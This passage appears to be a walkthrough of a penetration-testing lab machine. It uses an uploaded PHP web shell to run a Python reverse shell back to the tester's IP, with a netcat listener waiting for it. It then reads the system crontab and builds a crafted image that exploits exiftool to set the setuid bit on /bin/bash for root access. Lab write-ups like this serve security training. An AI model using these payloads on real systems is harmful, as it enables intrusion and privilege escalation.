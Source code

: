 ```
Link:http://exfiltrated.offsec/uploads/shell.phar?cmd=id

![image](https://user-images.githubusercontent.com/67879936/222860959-f3b4508c-942a-4afe-95a6-bfdb4905a5c6.png)

Lets grab a python3 reverse shell code so we can get a shell back to our machine

payload:```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.118",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'```

Using that payload

Link:http://exfiltrated.offsec/uploads/shell.phar?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.118%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/sh%22)%27

Before navigating to that link ensure you have your netcat listener set up

>nc -nvlp 1234

![image](https://user-images.githubusercontent.com/67879936/222861994-8e7a86d0-1151-4967-9457-34c6c5f6cc52.png)

cool, we got a shell as user ```www-data```. Moving on to privilege escalation.




<h2>Privilege Escalation</h2>

I found a cronjob running

>command: cat /etc/crontab

![image](https://user-images.githubusercontent.com/67879936/222864126-9e6346a0-a636-4a6b-83bf-69348ba3651f.png)

Going over to that directory

![image](https://user-images.githubusercontent.com/67879936/222864202-10cff2f5-eb57-4ced-bf59-bfce9ac8a226.png)

What this script does is that it collects EXIF metadata from JPG files in a specified directory. It assumes that the ```exiftool``` command is installed on the system and that it can be accessed from the command line. Additionally, the script requires read access to the directory specified by IMAGES and write access to the directory specified by META

So what we can do is to exploit this exiftool vulnerability. To do this, follow these steps

```
sudo apt-get install -y djvulibre-bin
wget -qO sample.jpg placekitten.com/200
file sample.jpg
printf 'P1 1 1 1' > input.pbm
cjb2 input.pbm mask.djvu
djvumake exploit.djvu Sjbz=mask.djvu
echo -e '(metadata (copyright "\\\n" . `chmod +s /bin/bash` #"))' > input.txt
djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
exiftool '-GeoTiffAsciiParams<=exploit.djvu' sample.jpg
perl -0777 -pe 's/\x87\xb1/\xc5\x1b/g' < sample.jpg > exploit.jpg
```
```